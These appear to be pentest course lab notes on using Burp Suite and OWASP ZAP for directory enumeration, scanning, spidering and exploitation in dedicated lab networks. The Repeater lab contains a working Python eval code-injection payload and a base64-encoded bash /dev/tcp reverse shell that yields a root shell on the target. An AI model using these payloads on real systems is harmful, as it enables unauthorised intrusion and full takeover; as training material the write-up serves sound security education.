

# Web Proxies and Web Information Gathering

Testing and modifying web requests being sent to web servers or web applications make up the majority of Web Application Penetration Testing. In order to intercept and modify the requests being sent between browsers and web applications we need to utilize Web Proxies. Web Proxies like Burp Suite and OWASP ZAP play a vital role in web application penetration testing and are pivotal in identifying and exploiting vulnerabilities in web applications. Web Proxies make the process of intercepting and replaying web requests much more efficient. As a result, web proxies are considered among the most important tools for any web app pentester.

This course will introduce you to web proxies like Burp Suite and OWASP ZAP and will cover the process of utilizing these web proxies in order to identify and exploit common vulnerabilities or misconfigurations in web applications. The goal of this course is to get you comfortable with using both Burp Suite and OWASP ZAP for web app pentesting.

---

## Course Introduction

### Course Topic Overview

- Passive Crawling with Burp Suite
- Burp Suite Target, Intruder, Sequencer, Repeater and Decoder
- Crawling and Spidering with OWASP ZAP
- Directory Enumeration with Burp Suite and OWASP ZAP

### Prerequisites

- Basic familiarity with HTTP/HTTPS
- Basic familiarity with Linux

### Learning Objectives

- You will get an introduction to what web proxies are and how they are used for web app pentesting.
- You will get an introduction to Burp Suite and OWASP ZAP.
- You will learn how to setup and configure Burp Suite and OWASP ZAP.
- You will get an understanding of the various features and capabilities of both Burp Suite and OWASP ZAP.
- You will learn how to actively and passively scan, crawl and spider web applications with Burp Suite and OWASP ZAP.
- You will learn how to perform common web application assessments and attacks like attacking HTTP login forms with Burp Suite and OWASP ZAP.

---
---

## Burp Suite

### Burp Suite Intruder

#### Lab Environment

**Directory Enumeration with Burp Suite**

Web Application Pentesting Tools can prove to be very helpful while performing penetration testing. 

In this lab exercise, we will take a look at how to use [Burp Suite](https://portswigger.net/support/burp-suite-tools) to perform directory enumeration on the [Mutillidae](https://github.com/webpwnized/mutillidae) web application.  

**Objective**: <u>Perform directory enumeration with Burp Suite</u>.

Instructions: 
- This lab is dedicated to you! No other users are on this network :)
- Once you start the lab, you will have access to a Kali GUI instance.
- Your Kali instance has an interface with IP address `192.X.Y.2`. Run `ip addr` to know the values of X and Y.
- Do not attack the gateway located at IP address `192.X.Y.1`.
- Use Directory wordlist: `/usr/share/wordlists/dirb/common.txt`.

#### Lab Solution

`ifconfig eth1`:
```
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.120.4.2📌 netmask 255.255.255.0  broadcast 192.120.4.255
        ether 02:42:c0:78:04:02  txqueuelen 0  (Ethernet)
        RX packets 16  bytes 1376 (1.3 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`sudo nmap -Pn -sSV -p- 192.120.4.3`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2024-12-11 21:04 IST
Nmap scan report for target-1 (192.120.4.3)
Host is up (0.000025s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))📌
3306/tcp open  mysql   MySQL 5.5.47-0ubuntu0.14.04.1
MAC Address: 02:42:C0:78:04:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.71 seconds
```

`firefox http://192.120.4.3 &`


### Burp Suite Repeater

#### Lab Environment

**Vulnerable Online Calculator - Code Injection**

[OWASP Top 10](https://owasp.org/www-project-top-ten/) is an awareness document, which outlines the most critical security risks to web applications. Pentesting is performed according to the OWASP TOP 10 standard to reduce/mitigate the security risks.

In the exercise, we will focus on [OWASP A1 Injection](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Injection) flaws and we will take a look at how to perform Python code injection attack on a vulnerable calculator web application. The backend generates the result using the Python "eval" function to make the workflow simpler.

**Objective:** <u>Interact with the webapp and perform Code Injection</u>.

Instructions: 
- This lab is dedicated to you! No other users are on this network :)
- Once you start the lab, you will have access to a Kali GUI instance.
- Your Kali instance has an interface with IP address `192.X.Y.2`. Run `ifconfig` to know the values of X and Y.
- The application should be running on port `5000` on the machine located at the IP address `192.X.Y.3`.
- Do not attack the gateway located at IP address `192.X.Y.1`.

#### Lab Solution

`ifconfig eth1`:
```
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.243.14.2📌 netmask 255.255.255.0  broadcast 192.243.14.255
        ether 02:42:c0:f3:0e:02  txqueuelen 0  (Ethernet)
        RX packets 90  bytes 271186 (264.8 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 76  bytes 8164 (7.9 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`sudo nmap -Pn -sSV -p- 192.243.14.3`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2024-12-11 21:38 IST
Nmap scan report for online-calc.com (192.243.14.3)
Host is up (0.000024s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
5000/tcp open  upnp?
8000/tcp open  http    Werkzeug httpd 1.0.1 (Python 2.7.17)📌

[...]

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.82 seconds
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /evaluate HTTP/1.1
Host: 192.243.14.3:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://online-calc.com:5000/
Content-Type: application/json
Content-Length: 14
Origin: http://online-calc.com:5000
Connection: close

{"expr":"5*5"}
```
`HTTP Response`:
```http
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 13
Access-Control-Allow-Origin: http://online-calc.com:5000
Vary: Origin
Server: Werkzeug/1.0.1 Python/2.7.17
Date: Wed, 11 Dec 2024 16:12:19 GMT

{"ans": "25"}
```

`python`:
```
Python 2.7.17 (default, Jan 19 2020, 19:54:54) 
[GCC 9.2.1 20200110] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> __import__("os").system("bash -c id")📌
uid=0(root) gid=0(root) groups=0(root)
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /evaluate HTTP/1.1
Host: 192.243.14.3:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://online-calc.com:5000/
Content-Type: application/json
Content-Length: 14
Origin: http://online-calc.com:5000
Connection: close

{"expr":"__import__('os').system('bash -c id')"}
```
`HTTP Response`:
```http
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 12
Access-Control-Allow-Origin: http://online-calc.com:5000
Vary: Origin
Server: Werkzeug/1.0.1 Python/2.7.17
Date: Wed, 11 Dec 2024 16:13:11 GMT

{"ans": "0"}
```

`nc -lnvp 4444`:
```
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```

`echo 'bash -i >& /dev/tcp/192.243.14.2/4444 0>&1' | base64`:
```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMjQzLjE0LjIvNDQ0NCAwPiYxCg==
```

`burpsuite` > `Proxy`

`HTTP Request`:
```http
POST /evaluate HTTP/1.1
Host: 192.243.14.3:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://online-calc.com:5000/
Content-Type: application/json
Content-Length: 14
Origin: http://online-calc.com:5000
Connection: close

{"expr":"__import__('os').system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMjQzLjE0LjIvNDQ0NCAwPiYxCg== | base64 -d | bash')"}
```

```
Ncat: Connection from 192.243.14.3.
Ncat: Connection from 192.243.14.3:53084.
bash: cannot set terminal process group (14): Inappropriate ioctl for device
bash: no job control in this shell
root@victim-1:~/pythonAPI# id
uid=0(root) gid=0(root) groups=0(root)🚩
```

---

## OWASP ZAP

### Directory Enumeration with OWASP ZAP

#### Lab Environment

**Directory Enumeration with ZAProxy**

Web Application Pentesting Tools can prove to be very helpful while performing penetration testing. 

In this lab exercise, we will take a look at how to use [ZAProxy](https://www.zaproxy.org/) to perform directory enumeration on the [Mutillidae](https://github.com/webpwnized/mutillidae) web application.  

**Objective**: <u>Perform directory enumeration with ZAProxy</u>.

Instructions: 
- This lab is dedicated to you! No other users are on this network :)
- Once you start the lab, you will have access to a Kali GUI instance.
- Your Kali instance has an interface with IP address `192.X.Y.2`. Run `ip addr` to know the values of X and Y.
- Do not attack the gateway located at IP address `192.X.Y.1`.
- Use Directory wordlist: `/usr/share/wordlists/dirb/common.txt`.

#### Lab Solution

`ifconfig eth1`:
```
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.182.244.2📌 netmask 255.255.255.0  broadcast 192.182.244.255
        ether 02:42:c0:b6:f4:02  txqueuelen 0  (Ethernet)
        RX packets 18  bytes 1516 (1.4 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`sudo nmap -Pn -sSV -p- 192.182.244.3`:
``` 
sudo: setrlimit(RLIMIT_CORE): Operation not permitted
Starting Nmap 7.70 ( https://nmap.org ) at 2024-12-11 21:55 IST
Nmap scan report for target-1 (192.182.244.3)
Host is up (0.000025s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))📌
3306/tcp open  mysql   MySQL 5.5.47-0ubuntu0.14.04.1
MAC Address: 02:42:C0:B6:F4:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.67 seconds
```


`cat ./zaproxy_forced_browse.csv`:
```
Req. Timestamp,Resp. Timestamp,Method,URL,Code,Reason,Size Resp. Header,Size Resp. Body
Wed Dec 11 22:05:30 IST 2024,Wed Dec 11 22:05:30 IST 2024,GET,http://192.182.244.3:80/,200,OK,322,52744
Wed Dec 11 22:05:31 IST 2024,Wed Dec 11 22:05:31 IST 2024,GET,http://192.182.244.3:80/ajax/,200,OK,170,966
Wed Dec 11 22:05:32 IST 2024,Wed Dec 11 22:05:32 IST 2024,GET,http://192.182.244.3:80/ajax/lookup-pen-test-tool.php,200,OK,363,0
Wed Dec 11 22:05:32 IST 2024,Wed Dec 11 22:05:32 IST 2024,GET,http://192.182.244.3:80/classes/,200,OK,171,3664

[...]
```

### Web App Scanning with OWASP ZAP

#### Lab Environment

**Scanning Web Application with ZAProxy**

Web Application Pentesting Tools can prove to be very helpful while performing penetration testing. 

In this lab exercise, we will take a look at how to use [ZAProxy](https://www.zaproxy.org/) to scan the web applications and identify various vulnerabilities.  

**Objective**: <u>Scan the web application with ZAProxy and identify the possible vulnerabilities</u>.

Instructions: 
- This lab is dedicated to you! No other users are on this network :)
- Once you start the lab, you will have access to a Kali GUI instance.
- Your Kali instance has an interface with IP address `192.X.Y.2`. Run `ip addr` to know the values of X and Y.
- Do not attack the gateway located at IP address `192.X.Y.1`.

#### Lab Solution

`ifconfig eth1`:
```
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.162.186.2📌 netmask 255.255.255.0  broadcast 192.162.186.255
        ether 02:42:c0:a2:ba:02  txqueuelen 0  (Ethernet)
        RX packets 15  bytes 1306 (1.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`sudo nmap -Pn -sSV -p- 192.162.186.3`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2024-12-11 23:53 IST
Nmap scan report for target-1 (192.162.186.3)
Host is up (0.000025s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))📌
3306/tcp open  mysql   MySQL 5.5.47-0ubuntu0.14.04.1
MAC Address: 02:42:C0:A2:BA:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.61 seconds
```
  





### Spidering with OWASP ZAP

#### Lab Environment

**Active Crawling with ZAProxy**

Web Application Pentesting Tools can prove to be very helpful while performing penetration testing. 

In this lab exercise, we will take a look at how to use [ZAProxy](https://www.zaproxy.org/) to perform active crawling on the [Mutillidae](https://github.com/webpwnized/mutillidae) web application.  

**Objective**: <u>Perform active crawling on the web application with ZAProxy</u>.

Instructions: 
- This lab is dedicated to you! No other users are on this network :)
- Once you start the lab, you will have access to a Kali GUI instance.
- Your Kali instance has an interface with IP address `192.X.Y.2`. Run `ip addr` to know the values of X and Y.
- Do not attack the gateway located at IP address `192.X.Y.1`.

#### Lab Solution

`ifconfig eth1`:
```
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.99.170.2📌 netmask 255.255.255.0  broadcast 192.99.170.255
        ether 02:42:c0:63:aa:02  txqueuelen 0  (Ethernet)
        RX packets 15  bytes 1306 (1.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`sudo nmap -Pn -sSV -p- 192.99.170.3`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2024-12-11 22:14 IST
Nmap scan report for target-1 (192.99.170.3)
Host is up (0.000028s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))📌
3306/tcp open  mysql   MySQL 5.5.47-0ubuntu0.14.04.1
MAC Address: 02:42:C0:7B:72:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.11 seconds
```


`cat ./zaproxy_spidering.txt`:
```
Processed,Method,URI,Flags
true,GET,http://192.99.170.3/,Seed
true,GET,http://192.99.170.3/robots.txt,Seed
true,GET,http://192.99.170.3/sitemap.xml,Seed
true,GET,http://192.99.170.3/images,Seed

[...]
```

---
---

## Tools and Frameworks

- [Burp Suite](https://portswigger.net/burp)
	Burp Suite is a widely-used tool for web application security testing, offering a platform to perform security assessments and identify vulnerabilities. Developed by PortSwigger, it is a proprietary software tool for security assessment and penetration testing of web applications.
	- Key Features:
		- **Burp Proxy**: Enables web crawling by automatically mapping out and scanning web applications, building a structural map for testing.
		- **Burp Logger and HTTP History**: Logs HTTP requests and responses for analysis and debugging.
		- **Burp Intercept**: Captures and intercepts in-motion HTTP requests, allowing for modification and replay.
		- **Burp Scanner**: Aggregates reports indicating weaknesses and vulnerabilities, using a built-in database containing known-unsafe syntax patterns and keywords.
	- Editions:
		- **Community Edition**: A free version with limited features, suitable for beginners and small-scale testing.
		- **Professional Edition**: A paid version with additional features, such as the scanner, suitable for professional web app security researchers and bug bounty hunters.
		- **Enterprise Edition**: A paid version with advanced features, including automated scanning and scalability, suitable for large-scale enterprise environments.
	- Additional Capabilities
		- **BApps**: External components that can be integrated into Burp Suite to enhance its capabilities, similar to browser extensions.
		- **Extender**: A window for viewing, modifying, installing, and uninstalling BApps.

- [OWASP ZAP](https://www.zaproxy.org/)
	OWASP ZAP (Zed Attack Proxy) is a powerful, open-source dynamic application security testing (DAST) tool designed to help web developers and IT security professionals identify security vulnerabilities in web applications. It is not intended for casual users, but rather for functional testers, web developers, and those with experience in penetration testing or general IT security.
	- Key Features:
		- **Intercepting Proxy**: OWASP ZAP can act as an accurate intercepting proxy, allowing users to view requests made to a web application and their responses, including AJAX calls. Breaking points can be set to control these requests and responses live.
		- **Comprehensive and Feature-Rich**: Despite its intuitive interface, OWASP ZAP is a feature-rich tool with a wide range of capabilities, including automated scanners and manual penetration testing methods.
		- **Scalability**: OWASP ZAP can be used as a proxy server, allowing users to manipulate all traffic passing through it, including HTTPS encrypted traffic.
		- **Daemon Mode and REST-Based API**: OWASP ZAP can run in daemon mode, controlled via a REST-based API, making it suitable for automated testing and integration with other tools.

---
---
